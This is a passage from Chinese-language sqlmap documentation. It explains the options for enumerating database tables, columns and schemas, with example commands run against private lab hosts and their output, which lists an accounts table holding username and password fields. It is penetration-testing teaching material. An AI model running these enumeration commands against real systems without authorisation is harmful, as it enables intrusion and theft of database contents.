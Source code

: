### 列举数据库表

参数：--tables,--exclude-sysdbs,-D

当前用户有权限读取包含所有数据库表信息的表中的时候，即可列出一个特定数据的所有表。

如果你不提供-D参数来列指定的一个数据的时候，sqlmap会列出数据库所有库的所有表。

--exclude-sysdbs参数是指包含了所有的系统数据库。

需要注意的是在Oracle中你需要提供的是TABLESPACE_NAME而不是数据库名称。

### 列举数据库表中的字段

参数：--columns,-C,-T,-D

当前用户有权限读取包含所有数据库表信息的表中的时候，即可列出指定数据库表中的字段，同时也会列出字段的数据类型。

如果没有使用-D参数指定数据库时，默认会使用当前数据库。

列举一个SQLite的例子：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/sqlite/get_int.php?id=1" --columns -D testdb -T users -C name
[...]
Database: SQLite_masterdb
Table: users
[3 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| id      | INTEGER |
| name    | TEXT    |
| surname | TEXT    |
+---------+---------+
```

### 列举数据库系统的架构

参数：--schema,--exclude-sysdbs

用户可以用此参数获取数据库的架构，包含所有的数据库，表和字段，以及各自的类型。

加上--exclude-sysdbs参数，将不会获取数据库自带的系统库内容。

MySQL例子：

```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --schema --batch --exclude-sysdbs
[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+

Database: owasp10
Table: blogs_table
[4 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
```